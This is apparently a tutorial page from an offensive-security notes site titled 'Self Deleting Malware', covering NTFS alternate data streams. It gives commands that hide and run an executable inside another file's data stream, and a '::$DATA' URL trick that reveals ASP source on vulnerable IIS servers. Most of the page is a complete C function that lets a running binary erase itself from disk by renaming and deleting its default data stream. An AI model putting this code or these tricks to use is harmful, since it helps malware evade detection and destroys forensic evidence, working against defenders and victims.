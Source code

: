 # Self Deleting Malware

## Introduction

A not so well known feature of the New Technology File System (NTFS) is the support for multiple _<mark style="color:yellow;">**data streams**</mark>_. Alternate data streams allow files to contain more than one stream of data. It's purpose was primarily to allow compatibility with Macintosh systems.

Every file has at least one data stream:  **In Windows, the default data stream is** <mark style="color:yellow;">**:$DATA**</mark>.

## Data Streams

Since **:$DATA** exists on every file, it can be an alternate way to access any file. Any applications that creates, looks at, or depends on the end of a file name (or extension) should be aware of alternate data streams. <mark style="color:yellow;">**Unsanitized user input could use the :$DATA stream to change the behavior of the program.**</mark>

### Creating Alternate Data Streams

* `C:\> type C:\windows\system32\notepad.exe > c:\windows\system32\calc.exe:notepad.exe`
* `C:\> start c:\windows\system32\calc.exe:notepad.exe`

### Accessing the :$DATA Alternate Data Stream

* `C:\> start c:\textfile.txt::$DATA`

### Exploiting Data Stream to show ASP code

In some vulnerable versions of IIS, we can exploit the data stream extension to view source code.

Normal Access:

* ```
  http://www.alternate-data-streams.com/default.asp
  ```

Exploited to show code:

* ```
  http://www.alternate-data-streams.com/default.asp::$DATA
  ```



## Deleting a Running Binary

As we know it is not possible to delete a running binary on Windows, since deleting a file requires that no other process is using it.

One way to get around this is by <mark style="color:yellow;">**renaming**</mark>**&#x20;the default data stream&#x20;**<mark style="color:yellow;">**:$DATA**</mark>**&#x20;to another name that represents a new data stream.**&#x20;

We then can we can delete the newly renamed data stream, causing the binary to be wiped from disk.

### Retrieve File Handle

We first need to retrieve the file handle of the binary.

The file handle can be retrieved using the **`CreateFile`** WinAPI. The [access flag](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-mask) must be set to **`DELETE`** to provide file deletion permissions.

```c
hFile = CreateFileW(
        L"deletion.exe",
        DELETE | SYNCHRONIZE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
);
```

### Renaming The Default Data Stream

We can rename the default data stream of the running binary with [SetFileInformationByHandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle) WinAPI function with the [FileRenameInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file_rename_info) flag. There is a list of enum values that we can choose from.



`FILE_INFO_BY_HANDLE_CLASS Enum:`

```c
typedef enum _FILE_INFO_BY_HANDLE_CLASS {
  FileBasicInfo,
  FileStandardInfo,
  FileNameInfo,
  FileRenameInfo, // This is the flag we will use to change the filename.
  ...
  }
```

`SetFileInformationByHandle` WinAPI function:

```c
if (!SetFileInformationByHandle(
        hFile,
        FileRenameInfo,
        &pRename,
        sRename
        )) {

   wprintf(L"SetFileInformationByHandle Failed with Error %d", GetLastError());
   return -1;
};

```



<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Delete The Data Stream

We then delete the  `:$DATA` stream to erase the file from the disk.&#x20;

To do so, the same **`SetFileInformationByHandle`** WinAPI will be used, with a different flag, [FileDispositionInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file_disposition_info) This flag marks the file for deletion when its handle is closed.

We will close and reopen the previous handle.

## Final Code

{% code fullWidth="true" %}
```c

// The new data stream name
#define NEW_STREAM L":Foobar"


BOOL DeleteSelf() {


	WCHAR                       szPath [MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete                = { 0 };
	HANDLE                      hFile                 = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO           pRename               = NULL;
	const wchar_t*              NewStream             = (const wchar_t*)NEW_STREAM;
    SIZE_T			            StreamLength	         = wcslen(NewStream) * sizeof(wchar_t);
	SIZE_T                      sRename               = sizeof(FILE_RENAME_INFO) + StreamLength;


    // Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
  
    // Cleaning up some structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//----------------------------------------------------------------------------------------
    // Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
	Delete.DeleteFile = TRUE;
  
    // Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
	pRename->FileNameLength = StreamLength;
	RtlCopyMemory(pRename->FileName, NewStream, StreamLength);

	//----------------------------------------------------------------------------------------

    // Used to get the current file name
	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	//----------------------------------------------------------------------------------------
    // RENAMING
  
    // Opening a handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Renaming the data stream
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------
    // DELETING
  
    // Opening a new handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");
	
    // Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------

    // Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}

```
{% endcode %}





## Hidden Files Misc

We can confirm that the files are in fact hidden when viewing the explorer

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
